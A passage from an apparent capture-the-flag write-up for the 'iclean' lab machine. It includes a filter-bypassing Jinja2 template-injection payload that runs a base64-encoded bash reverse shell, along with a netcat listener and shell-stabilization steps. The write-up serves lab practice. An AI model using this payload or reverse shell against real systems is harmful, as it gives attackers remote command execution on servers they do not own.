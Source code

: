 
```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.43.86] 45936
bash: cannot set terminal process group (1218): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$
```
[HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#filter-bypasses) also has a useful payload for the bypass.
The following payload executes a command in base64, but the output is not visible:
```
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}
```

## Stabilizing Shell

We stabilized our shell as usual.

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.43.86] 45936
bash: cannot set terminal process group (1218): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@iclean:/opt/app$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@iclean:/opt/app$ 
www-data@iclean:/opt/app$ export XTERM=xterm
www-data@iclean:/opt/app$
```

## Enumeration

Since we got a shell as `www-data` we always start by `enumerating the folder` our shell got spawned in.

```c
www-data@iclean:/opt/app$ ls -la
total 32
drwxr-xr-x 4 root root  4096 Mar  2 07:29 .
drwxr-xr-x 3 root root  4096 Sep 21  2023 ..
-rw-r--r-- 1 root root 12553 Mar  2 07:29 app.py
drwxr-xr-x 6 root root  4096 Sep 27  2023 static
drwxr-xrwx 2 root root  4096 Apr  6 19:40 templates
```
